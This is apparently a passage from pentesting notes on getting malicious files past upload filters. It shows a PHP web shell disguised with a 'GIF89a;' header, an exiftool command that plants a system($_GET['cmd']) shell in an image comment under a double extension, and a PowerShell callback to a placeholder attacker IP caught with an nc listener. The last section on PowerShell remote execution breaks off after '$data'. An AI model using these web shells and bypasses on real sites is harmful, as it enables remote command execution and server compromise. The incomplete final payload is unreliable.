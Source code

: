 Now if we save and exit the file (Ctrl + x), we can use `file` once again, and see that we have successfully spoofed the filetype of our shell:

![](https://i.imgur.com/ldyt88v.png)

Now try to upload this file on the webpage and this could bypass the magic number filter.&#x20;

## PHP file

###

### GIF89a;

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

### In image

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg



## PowerShell file

Simple payload to check if the script will be executes

{% code title="test.ps1" %}
```powershell
Invoke-WebRequest -Uri ATT_IP:ATT_PORT
```
{% endcode %}

{% hint style="info" %}
We have to execute this command in the attack machine before `nc -lnvp ATT_PORT`
{% endhint %}

If we received a request from a machine, it means that our script will execute by someone.

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### RCE with ps1 file.

Upload this payload the command that we want will be executes in the target machine and the output will be send in our listener.

```
$data
```

